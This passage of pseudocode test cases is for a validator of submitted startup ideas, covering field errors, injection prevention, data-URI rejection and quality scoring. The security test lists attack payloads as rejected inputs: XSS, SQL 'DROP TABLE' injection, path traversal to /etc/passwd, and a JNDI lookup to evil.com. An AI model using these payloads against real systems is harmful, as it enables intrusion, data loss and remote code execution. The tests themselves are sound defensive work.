 ```pseudocode
    "estimated_cost": "not_a_number"
  }
  validator = IdeaValidator()
  result = validator.validate(invalid_idea)
  assert result.is_valid == false
  assert "EMPTY_TITLE" in result.error_codes
  assert "DESCRIPTION_TOO_LONG" in result.error_codes
  assert "INVALID_CATEGORY" in result.error_codes
  assert "INVALID_COST_FORMAT" in result.error_codes
```

##### Security Validation
```pseudocode
// TEST: Validator prevents injection attacks
function test_injection_prevention():
  malicious_inputs = [
    {"title": "<script>alert('xss')</script>"},
    {"description": "'; DROP TABLE ideas; --"},
    {"category": "../../etc/passwd"},
    {"target_market": "${jndi:ldap://evil.com/x}"}
  ]
  
  validator = IdeaValidator()
  for malicious_input in malicious_inputs:
    result = validator.validate(malicious_input)
    assert result.is_valid == false
    assert "SECURITY_VIOLATION" in result.error_codes
    assert result.sanitized_input != malicious_input

// TEST: Validator handles file upload attempts
function test_file_upload_prevention():
  file_upload_attempt = {
    "title": "Normal title",
    "description": "data:text/plain;base64,SGVsbG8gV29ybGQ="
  }
  validator = IdeaValidator()
  result = validator.validate(file_upload_attempt)
  assert result.is_valid == false
  assert "INVALID_DATA_URI" in result.error_codes
```

##### Content Quality Validation
```pseudocode
// TEST: Validator assesses idea quality
function test_content_quality_assessment():
  high_quality_idea = {
    "title": "AI-powered healthcare diagnostics platform",
    "description": "Machine learning system for early disease detection using medical imaging and patient data analysis",
    "category": "healthtech",
    "target_market": "hospitals_and_clinics",
    "problem_statement": "Current diagnostic methods are slow and expensive",
    "solution_approach": "Computer vision and ML algorithms for rapid analysis"
  }
  
  validator = IdeaValidator()
  result = validator.validate(high_quality_idea)
  assert result.is_valid == true
  assert result.quality_score > 0.9
  assert result.completeness_score > 0.8
  assert result.feasibility_score > 0.7

// TEST: Validator identifies low-quality content
function test_low_quality_detection():
```